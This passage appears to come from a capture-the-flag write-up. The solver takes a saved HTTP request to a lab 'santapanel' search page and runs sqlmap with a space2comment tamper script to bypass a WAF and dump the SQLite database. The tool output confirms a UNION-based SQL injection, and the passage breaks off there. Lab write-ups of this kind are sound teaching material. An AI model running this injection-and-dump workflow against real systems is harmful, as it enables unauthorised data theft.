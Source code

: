 ```bash
    <protocol>http</protocol>
    <method><![CDATA[GET]]></method>
    <path><![CDATA[/santapanel?search=prathap]]></path>
    <extension>null</extension>
    <request base64="true"><![CDATA[R0VUIC9zYW50YXBhbmVsP3NlYXJjaD1w$
    <status></status>
    <responselength></responselength>
    <mimetype></mimetype>
    <response base64="true"></response>
    <comment></comment>
  </item>
</items>
```

>>NOW WE NEED TO USE "sqlmap" TOOL TO DETECT AND EXPLOIT THE SQL INJECTION FLAWS.

>>USE THIS TOOL WITH THE SAVED ITEM AND TRYING AND BYPASS THE WAF BY USING "--tamper=space2comment"SPECIFYING THE DATABASE NAME "sqlite" AND DUMPING THE DATABASE.  

```bash
sqlmap -r panel.request --tamper=space2comment --dbms sqlite --dump-all
```

```bash
root@ip-10-10-124-175:~/Desktop# sqlmap -r panel.request --tamper=space2comment --dbms sqlite --dump-all
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 07:37:33

[07:37:33] [INFO] parsing HTTP request from 'panel.request'
[07:37:33] [INFO] loading tamper script 'space2comment'
[07:37:33] [INFO] testing connection to the target URL
[07:37:33] [INFO] testing if the target URL content is stable
[07:37:34] [INFO] target URL content is stable
[07:37:34] [INFO] testing if GET parameter 'search' is dynamic
[07:37:34] [WARNING] GET parameter 'search' does not appear to be dynamic
[07:37:34] [WARNING] heuristic (basic) test shows that GET parameter 'search' might not be injectable
[07:37:34] [INFO] testing for SQL injection on GET parameter 'search'
[07:37:34] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[07:37:34] [WARNING] reflective value(s) found and filtering out
[07:37:34] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[07:37:35] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[07:37:35] [INFO] target URL appears to have 2 columns in query
[07:37:35] [INFO] GET parameter 'search' is 'Generic UNION query (NULL) - 1 to 10 columns' injectable
[07:37:35] [INFO] checking if the injection point on GET parameter 'search' is a false positive
[07:37:35] [INFO] heuristics detected web page charset 'ascii'
[07:37:35] [WARNING] parameter length constraining mechanism detected (e.g. Suhosin patch). Potential problems in enumeration phase can be expected
GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 41 HTTP(s) requests:
---
```